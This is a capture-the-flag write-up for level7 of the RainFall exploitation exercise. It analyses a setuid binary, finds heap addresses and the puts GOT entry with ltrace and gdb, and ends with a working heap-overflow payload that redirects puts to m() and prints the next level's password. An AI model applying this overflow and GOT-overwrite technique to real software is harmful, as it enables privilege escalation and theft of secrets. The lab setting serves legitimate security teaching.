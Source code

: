 level7
======

*	We spawn with a [level7](src/level7) executable
	```console
	level7@RainFall:~$ ls -l 
	total 8
	-rwsr-s---+ 1 level8 users 5648 Mar  9  2016 level7
	level7@RainFall:~$ ./level7 
	Segmentation fault (core dumped)
	level7@RainFall:~$ ./level7 test
	Segmentation fault (core dumped)
	level7@RainFall:~$ ./level7 test test
	~~
	level7@RainFall:~$ 
	```
*	Let's look at the [code](src/level7.c) (I changed the name of some variable for the sake of my mental health):
	-	`main()` takes two arguments and then:
		-	two array and one normal var:
			-	`arr1` and `arr2` are both `malloc(8)`
			-	`varx` also `malloc(8)` to create a seperated memory region
			-	it should look something like this:
				```c
				arr1[0] = 1
				arr1[1] = [][][][][][][][] // 8 bytes memory region to store the string argv[1]

				arr2[0] = 2
				arr2[1] = [][][][][][][][] // 8 bytes memory region to store the string argv[2]
				```
				To be fair the issue in this level7 is just understanding that horrible code
		-	next we have two `strcpy()`, one for each argument like shown above
		-	then `fopen()` and `fgets` respectively fetch and store the password of the next level in a global variable `c`
		-	and `puts("~~")`
	-	`m()` prints the content of `c` but is never called in `main()`
*	Pretty obvious here that we need to find a way to call `m()` but only once the password has been fetched onto `c`. As we did in the last level, we will strcpy. Most logical way to our means would be to replace the function pointer calling `puts()` to point to `m()`.
*	To reach `puts()`, we have to :
	-	overflow `arr1[1](argv[1])`
	-	to reach `arr2[0]`
	-	to reach `arr[1](argv[2])`
*	Once again let's use `ltrace` to retrieve every address
	```console
	level7@RainFall:~$ ltrace ./level7 
	[...]
	malloc(8)           = 0x0804a008 -> arr1
	malloc(8)           = 0x0804a018 -> varx
	malloc(8)           = 0x0804a028 -> arr2
	malloc(8)           = 0x0804a038 -> varx
	```
	Once again we can see that the allocation are contiguous.\
	We also find the difference between the two array is `a028 - a008 = 10(HEX) -> 16 bytes + 4 bytes to reach the second index -> 20 bytes`
*	Next step, find `puts()` int GOT:
	```gdb
	(gdb) x puts
	0x8048400 <puts@plt>:   0x992825ff
	(gdb) disas 0x8048400
	Dump of assembler code for function puts@plt:
	0x08048400 <+0>:     jmp    *0x8049928
	0x08048406 <+6>:     push   $0x28
	0x0804840b <+11>:    jmp    0x80483a0
	```
	`jmp` done at `\x28\x99\x04\x08`
*	Now for `m`:
	```
	(gdb) x m
	0x80484f4 <m>:  0x83e58955
	```
	we get this `\xf4\x84\x04\x08`
*	We have everything we need, let's build our payload:
	```console
	level7@RainFall:~$ ./level7 $(python -c 'print "a"*20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
	5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
	```
	padding + `puts()` & `m()`
